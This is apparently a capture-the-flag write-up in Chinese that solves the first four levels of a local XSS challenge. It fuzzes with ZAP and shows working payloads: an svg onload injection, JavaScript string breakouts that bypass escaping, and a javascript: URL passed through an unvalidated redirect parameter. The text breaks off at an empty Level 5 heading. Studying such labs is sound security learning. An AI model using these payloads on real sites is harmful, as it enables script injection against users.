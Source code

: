 # XSS

## Description

你能否过关斩将解决所有 XSS 问题最终获得 flag 呢？

## Solution

要一一對照所有漏洞太難了，不如我們來用 ZAP 配合 XSS 字典來 fuzz 吧

### Level 1

進入第一關 `http://127.0.0.1:3000/level1?username=test`

很明確可以 fuzz 的目標是 username=test 中的 test 字串

我使用以下字典完成 fuzz： https://github.com/payloadbox/xss-payload-list

![alt text](image.png)

有 reflected 的看一下 response 如果語法顯示合理，理論上表示攻擊成功，但實際上輸入瀏覽器有更高的安全標準，所以還是要多試幾個看看。

我在 google chrome 中輸入以下字串，成功完成攻擊:

- `http://127.0.0.1:3000/level1?username=veris--%3Egroup%3Csvg/onload=alert(/XSS/)//`

關鍵是利用 `<svg>` 來觸發 `onload` event，當網頁載入時會執行 `onload` event 中的 JavaScript code。

看起來大於小於符號的 html encode 並沒有被封鎖。

### Level 2

第二關不能無腦 fuzz 了，因為過濾機制擺到 client 了，查看 html code 可以得到以下代碼。

```JS
if(location.search == ""){
	location.search = "?username=xss"
}
var username = 'xss';
document.getElementById('ccc').innerHTML= "Welcome " + escape(username);
```

可以明確發現，我們的輸入會進到 username，而且未做防禦，是插入前才用 escape 過濾變數。

因此只要跳脫變數 `username`，就可以執行任意的 JavaScript code。

參考以下答案:

```JS
var username = 'baby'; alert(1); var a = '';
document.getElementById('ccc').innerHTML= "Welcome " + escape(username);
```

把 `baby'; alert(1); var a = '` 丟到 url encode 後，再放進 url 中，可以得到答案

- `http://127.0.0.1:3000/level2?username=baby%27%3B%20alert%281%29%3B%20var%20a%20%3D%20%27`

### Level 3

這題直接貼上上一題的答案，會失敗，因為得到以下結果

```JS
if(location.search == ""){
	location.search = "?username=xss"
}
var username = 'baby\'; alert(1); var a = '';
document.getElementById('ccc').innerHTML= "Welcome " + username;
```

發現核心因素是它把 baby 後變得跳脫用的 `'` replace 成 `\'`，所以我們需要把 `'` 用 `\\'` 替換掉

放入 url encode 後，再放進 url 中，可以得到答案

- `http://127.0.0.1:3000/level3?username=baby%5C%27%3B%20alert%281%29%3B%20var%20a%20%3D%20%27`

### Level 4

這題也是 client 端有較複雜的防護機制，我們需要先分析出它如何防止 xss 攻擊。

```JS
var time = 10;
var jumpUrl;
if(getQueryVariable('jumpUrl') == false){
	jumpUrl = location.href;
}else{
	jumpUrl = getQueryVariable('jumpUrl');
}
setTimeout(jump,1000,time);
function jump(time){
	if(time == 0){
		location.href = jumpUrl;
	}else{
		time = time - 1 ;
		document.getElementById('ccc').innerHTML= `页面${time}秒后将会重定向到${escape(jumpUrl)}`;
		setTimeout(jump,1000,time);
	}
}
function getQueryVariable(variable)
{
       var query = window.location.search.substring(1);
       var vars = query.split("&");
       for (var i=0;i<vars.length;i++) {
               var pair = vars[i].split("=");
               if(pair[0] == variable){return pair[1];}
       }
       return(false);
}
```

基於分析，發現會直接跳轉到 `jumpUrl` 的值，而沒有進行任何的過濾或驗證。因此，可以通過 `javascript 協議 URL` 來觸發 JavaScript 代碼。例如：

`http://127.0.0.1:3000/level4?jumpUrl=javaScript:alert(1)`

要等待時間倒數完

### Level 5

